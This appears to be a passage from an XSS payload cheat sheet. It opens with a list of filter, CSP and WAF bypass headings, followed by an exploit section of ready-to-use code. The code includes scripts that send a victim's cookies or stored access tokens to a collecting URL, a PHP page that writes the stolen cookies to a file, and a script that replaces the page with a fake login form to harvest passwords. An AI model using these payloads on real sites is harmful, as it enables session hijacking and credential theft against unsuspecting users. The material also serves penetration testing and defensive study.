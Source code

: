   - [Bypass using BOM](#bypass-using-bom)
  - [Bypass using weird encoding or native interpretation](#bypass-using-weird-encoding-or-native-interpretation)
  - [Bypass using jsfuck](#bypass-using-jsfuck)
- [CSP Bypass](#csp-bypass)
- [Common WAF Bypass](#common-waf-bypass)

## Exploit code or POC

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following
payload will send it to a controlled page.

```html
<script>
  document.location = "http://localhost/XSS/grabber.php?c=" + document.cookie;
</script>
<script>
  document.location =
    "http://localhost/XSS/grabber.php?c=" +
    localStorage.getItem("access_token");
</script>
<script>
  new Image().src = "http://localhost/cookie.php?c=" + document.cookie;
</script>
<script>
  new Image().src =
    "http://localhost/cookie.php?c=" + localStorage.getItem("access_token");
</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### UI redressing

Leverage the XSS to modify the HTML content of the page in order to display a
fake login form.

```html
<script>
  history.replaceState(null, null, "../../../login");
  document.body.innerHTML =
    "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>";
</script>
```

